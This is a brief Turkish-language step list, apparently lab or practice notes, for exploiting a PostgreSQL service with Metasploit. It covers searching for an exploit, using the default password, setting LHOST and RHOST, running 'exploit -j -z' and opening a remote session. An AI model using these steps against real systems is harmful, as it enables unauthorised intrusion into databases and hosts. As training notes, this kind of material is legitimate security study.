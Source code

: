 #### 1.Postgresql kodunu google'da exploit olarak aratıyoruz
#### 2.```msfconsole``` açıyoruz
#### 3.Google üzerinden çıkan kodları çalıştırıyoruz
#### 4.```show options``` çalıştırdığımızda çıkan bilgiler içinde default password'u görürüz
#### 5.```LHOST``` ve ```RHOST``` ayarlarını değiştriiyoruz
#### 6.```exploit -j -z``` dinleyeme başlıyoruz ```-j -z``` dersek dinlemeyi arka planda yapar
#### 7.```sessions -l``` açık olan portları görürüz
#### 8 ```session 1``` 1. session açık olduğu için o porttan giriş yapar
